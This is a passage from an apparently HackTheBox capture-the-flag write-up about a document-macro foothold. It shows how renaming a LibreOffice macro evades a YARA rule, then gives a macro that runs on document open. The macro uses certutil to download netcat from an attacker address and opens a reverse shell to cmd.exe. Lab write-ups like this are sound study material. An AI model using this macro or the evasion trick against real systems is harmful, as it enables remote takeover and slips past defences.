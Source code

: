 The `.ods` file extension is used by LibreOffice Calc and this seems to be a hint that I need to use this file format for my payload. One blog post says that malware samples dropped on the share will automatically be executed, but as a low privilege user. This is likely the first step to get a foothold on the box. The blog posts link to [0xdf's blog post about Yara rules](https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html). The example shown on the blog blacklists the following Subs:

- Sub OnLoad
- Sub Exploit

Because I can bind assign any macro to the Open Document event, I can use `Run_at_open` (or any name for that matter) instead of `OnLoad` for the function name and it won't be caught by the YARA rule.

I created a `sales.ods` file with the following macro using `certutil` to download netcat and execute it.

```vb
Sub Run_at_open
	Shell("certutil.exe -urlcache -split -f 'http://10.10.16.9/nc.exe' C:\Windows\System32\spool\drivers\color\nc.exe")
	Shell("C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.9 4444 -e cmd.exe")
End Sub
```

The macro needs to be assigned to the `Open Document` Event as follows:

![](/assets/images/htb-writeup-re/macroassign.png)
